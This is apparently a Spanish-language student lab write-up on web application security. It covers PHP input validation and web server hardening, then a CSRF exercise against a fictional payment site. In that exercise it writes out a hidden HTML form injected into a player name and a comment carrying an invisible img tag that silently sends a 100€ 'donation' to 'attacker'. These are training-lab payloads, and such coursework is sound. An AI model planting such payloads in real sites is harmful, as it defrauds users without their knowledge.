    Implementar una validación de entradas mas robusta:

   |<p>$username = filter\_input(INPUT\_POST, 'username', FILTER\_SANITIZE\_STRING);</p><p>if (!$username || strlen($username) < 3 || strlen($username) > 20) {</p><p>`    `$error = "Nombre de usuario inválido";</p><p>}</p>|
   | :- |
1. ### **4. Servidores web**
   ¿Qué medidas de seguridad se implementaríais en el servidor web para reducir el riesgo a ataques?

   Para que podamos reducir el riesgo a ataques en nuestro servidor web, podríamos implementar algunas medidas de seguridad, como por ejemplo:

   A nivel de servidor, debemos mantener el sistema y los servicios actualizados y con los últimos parches de seguridad disponibles. Deberíamos aplicar el principio de mínimos privilegios, desactivar servicios y software que no necesitemos para reducir al máximo la superficie de ataque, tendríamos que proteger con contraseñas los directorios sensibles, utilizar certificados SSL/TLS para cifrar el tráfico y podríamos implementar una autenticación de dos factores

   A nivel de seguridad en la red, podemos usar firewalls para bloquear o limitar el acceso a puertos que no nos interesen, ubicar el servidor en una DMZ, implementar un sistema de detección y prevención de intrusiones (IDS/IPS) y utilizar herramientas como SIEM, WAF, IDS e IPS para monitorear y analizar la seguridad en tiempo real

   En conjunto, tendríamos que realizar auditorias regulares de los servicios y archivos e implementar un sistema de copias de seguridad automático y periódico, comprobando también periódicamente que se estén realizando correctamente.

1. ### **5. CSRF**
   Ahora ya sabemos que podemos realizar un ataque XSS. Hemos preparado el siguiente enlace: http://web.pagos/donate.php?amount=100&receiver=attacker, mediante el cual, cualquiera que haga click hará una donación de 100€ al nuestro usuario (con nombre 'attacker') de la famosa plataforma de pagos online 'web.pagos' (Nota: como en realidad esta es una dirección inventada, vuestro navegador os devolverá un error 404).

   a) Editad un jugador para conseguir que, en el listado de jugadores list\\_players.php aparezca, debajo del nombre de su equipo y antes de show/add comments un botón llamado Profile que corresponda a un formulario que envíe a cualquiera que haga clic sobre este botón a esta dirección que hemos preparado.

   |En el campo...|<p>`                    `<div></p><p>`                    `<a href=\"show\_comments.php?id=".$row['playerid']."\">(show/add comments)</a></p><p>`                    `<a href=\"insert\_player.php?id=".$row['playerid']."\">(edit player)</a></p><p>`                    `</div></p><p>`                    `</li>\n";</p><p>`            `}</p>|
   | :- | :- |
   |Introduzco...|<p><form action='http://web.pagos/donate.php' method='get' style='display:inline;'></p><p>`        `<input type='hidden' name='amount' value='100'></p><p>`        `<input type='hidden' name='receiver' value='attacker'></p><p>`        `<input type='submit' value='Profile' style='cursor:pointer;'></p><p>`      `</form>";</p>|

   **b)** Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que el usuario pulse un botón. Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (show\_comments.php).

   Podríamos hacerlo de varias formas, una de ellas sería incluyendo en el comentario una imagen oculta, que cargue la URL de donación de manera silenciosa cuando se abra el comentario, un ejemplo podría ser:

   |<p>Sin duda el mejor jugador de todos los tiempos!</p><p><img src="http://web.pagos/donate.php?amount=100&receiver=attacker" style="display:none;" /></p>|
   | :- |
